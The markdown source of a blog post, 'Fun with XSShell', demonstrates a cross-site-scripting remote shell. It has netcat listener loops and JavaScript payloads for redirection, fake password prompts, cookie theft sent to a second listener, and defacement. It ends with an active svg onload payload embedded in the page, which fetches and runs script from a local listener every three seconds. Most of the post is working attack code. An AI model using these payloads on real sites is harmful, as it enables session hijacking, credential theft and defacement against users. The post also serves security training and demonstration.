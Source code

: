 title: 'Fun with XSShell'
publish: True
categories: [application security]

So this is kinda fun. With this page open, copy and paste one of the listener commands from below into a terminal window on your local machine. Then, paste `alert(42)` into the resulting shell and press "Enter". Once you recover from the initial shock of what you just witnessed, play with the following payloads and spend the next hour of life thoroughly enjoying yourself.

<!-- READMORE -->

### Listeners

#### Linux

``` text
while :; do printf "j$ "; read c; printf "HTTP/1.1 200 OK\n\n$c" | nc -lp 8000 >/dev/null; done
```

#### OS X

``` text
while :; do printf "j$ "; read c; printf "HTTP/1.1 200 OK\n\n$c" | nc -l 8000 >/dev/null; done
```

### Example Payloads

#### Redirection

``` text
window.location = 'https://www.practisec.com/training/'
```

#### Phishing

``` text
i=new Image();i.src="http://127.0.0.1:8888/pw/"+prompt("Password:")
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Session Hijacking

``` text
i=new Image();i.src="http://127.0.0.1:8888/pw/"+document.cookie
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Defacement

``` text
d=document;e=d.createElement("p");e.innerHTML="lanmaster53 wuz here!";d.body.appendChild(e)
```

### Credits

This is all based on the code shared in the following tweets.

<div class="row">
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Target<br><br>&lt;svg/onload=setInterval(function(){d=document;z=d.createElement(&quot;script&quot;);z.src=&quot;//HOST:PORT&quot;;d.body.appendChild(z)},0)&gt;</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639069519097503744">September 2, 2015</a></blockquote>
</div>
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Attacker<br><br>$ while :; do printf &quot;j$ &quot;; read c; echo <a href="https://twitter.com/search?q=%24c&amp;src=ctag">$c</a> | nc -lp PORT &gt;/dev/null; done</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639073880922030080">September 2, 2015</a></blockquote>
</div>
</div>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

<!-- attack payload -->
<svg/onload=setInterval(function(){d=document;try{d.getElementById("x").remove()}catch(e){};z=d.createElement("script");z.id="x";z.src="http://127.0.0.1:8000";d.body.appendChild(z)},3000)>

Check the source code here ^^^ for the active payload.
